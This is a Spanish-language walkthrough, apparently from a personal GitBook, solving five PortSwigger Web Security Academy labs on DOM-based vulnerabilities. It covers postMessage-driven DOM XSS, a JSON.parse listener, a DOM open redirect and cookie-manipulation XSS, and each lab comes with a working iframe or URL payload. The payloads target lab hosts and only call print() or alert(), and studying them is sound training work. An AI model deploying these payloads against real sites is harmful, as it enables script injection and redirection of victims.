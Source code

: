 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages

### Enunciado

Este laboratorio demuestra una vulnerabilidad sencilla de mensajes web. Usa el servidor de exploits para enviar un mensaje al sitio objetivo que provoque la ejecución de la función `print()`.

### Resolución

Vemos el código fuente y vemos una función **innerHTML** asigna directamente el contenido al elemento **div** con id **ads**.\
Si **e.data** contiene código HTML o JavaScript, **el navegador lo interpretará y ejecutará**.

Además, **observamos que la respuesta no incluye la cabecera `x-frame-options`:**

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esto permite **incrustar el sitio en un iframe**.

{% embed url="https://developer.mozilla.org/es/docs/Web/API/Window/postMessage" %}

**Con esa base, podemos crear un HTML malicioso como este:**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=alert(XSS)>','*')">
</iframe>
```

Pero para **resolver el laboratorio**, usaremos el payload que dispara **print():**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and a JavaScript URL

### Enunciado

Este laboratorio demuestra una vulnerabilidad de redirección basada en el DOM que se activa mediante web messaging. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y que ejecute la función `print()`.

### Resolución

Vemos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **el procesamiento del web message es vulnerable a XSS basado en DOM**, porque **el event listener no valida correctamente el origen de los mensajes recibidos ni las propiedades y funciones que usa.**

Además, **identificamos un&#x20;**_**sink**_**&#x20;peligroso** `location.href`que permite redirigir a otra página. Sin embargo, **antes de hacer la redirección**, el código verifica que los datos del mensaje contengan **http:** o **https.**

**Con esta información, podemos preparar un HTML malicioso** que use un `<iframe>` y la función **postMessage()** para enviar datos al listener vulnerable en la página objetivo:

```html
<html>
  <body>
    <iframe src="https://0a2b0071046a9d6681aec51300f90043.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
  </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and `JSON.parse`

### Enunciado

Este laboratorio utiliza web messaging y analiza el mensaje como JSON. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y ejecute la función `print()`.

### Resolución

Vemos el código fuente.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **hay un event listener que recibe mensajes web y los interpreta como datos JSON usando `JSON.parse`**. El problema es que **el listener no valida correctamente el origen del mensaje**, por lo que acepta cualquier entrada.

Dentro del código, hay un `switch` con un caso llamado **`load-channel`**, que **cambia el atributo `src` de un elemento `<iframe>`**. Esto convierte ese atributo en un **sink peligroso**.

Con esta información, podemos **crear un HTML malicioso con un `<iframe>`** y usar `postMessage()` para enviar un mensaje manipulado al listener vulnerable.\
El listener tomará el contenido y lo pasará al sink en la página principal:

```javascript
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}", "*")
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos el siguiente paylaod.

```
<html>
    <body>
        <iframe src="https://0ae200cd04519f0c824b014900eb0008.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based open redirection

### Enunciado

Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM (DOM-based open-redirection). Exploita esta vulnerabilidad y redirige a la víctima hacia el servidor de exploits.

### Resolución

Vemos el código fuente de los post.

<figure><img src="../../.gitbook/assets/image (1505).png" alt=""><figcaption></figcaption></figure>

Verifica si el objeto **location** contiene **url=**[**http://loquesea.com**](http://loquesea.com) o **url=**[**https://loquesea.com**](https://loquesea.com). Si encuentra ese parámetro, **asigna el valor a `location.href`** para redirigir a esa dirección.

<figure><img src="../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Es **vulnerable a redirección abierta basada en DOM**.

Para **explotarla**, podemos **añadir el payload como parámetro GET**:

```
/post?postId=9&url=https://exploit-0a6200ff03db6e4e8148c45501ce0070.exploit-server.net/
```

Así, **forzamos la redirección** a nuestro servidor de exploits.

<figure><img src="../../.gitbook/assets/image (1508).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1507).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based cookie manipulation

### Enunciado

Este laboratorio demuestra una manipulación de cookies en el lado del cliente basada en DOM. Inyecta una cookie que provoque un ataque XSS en otra página y ejecute la función `print()`. Para ello, deberás usar el servidor de exploits para redirigir a la víctima a las páginas correctas.

### Resolución

Vemos el código fuente de los productos.

<figure><img src="../../.gitbook/assets/image (1509).png" alt=""><figcaption></figcaption></figure>

Aquí vemos que hay un **sink peligroso**: `document.cookie`. La **fuente** de datos (input controlado por el atacante) es **`window.location`**.

Esto significa que **se establecerá una nueva cookie** llamada `lastViewdProduct`, **usando como valor la propiedad `window.location`**.

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

Cuando actualizamos la página, **se genera dinámicamente un nuevo enlace `<a>`** con el atributo **href** igual a **`window.location`**.

Esto significa que **podemos inyectar código malicioso en la URL**.

```
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

Al incluir este payload, **cerramos el atributo href y añadimos un elemento `<img>` con un evento `onerror` que ejecuta `print()`.**

<figure><img src="../../.gitbook/assets/image (1511).png" alt=""><figcaption></figcaption></figure>

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1512).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto ya podemos crear el payload HTML.

```
<html>
    <body>
        <iframe src="https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

Este **payload** generará un **elemento `<iframe>`** apuntando a nuestra URL con el payload que establece la cookie. Cuando se cargue, **verificamos si se activó el XSS**.

Si **no se dispara**, entonces **cambiamos el atributo `src` del `<iframe>`** para que apunte a la **página principal del sitio vulnerable**.

De este modo, **forzamos a que se cargue la cookie inyectada y se ejecute el payload XSS.**

<figure><img src="../../.gitbook/assets/image (1513).png" alt=""><figcaption></figcaption></figure>
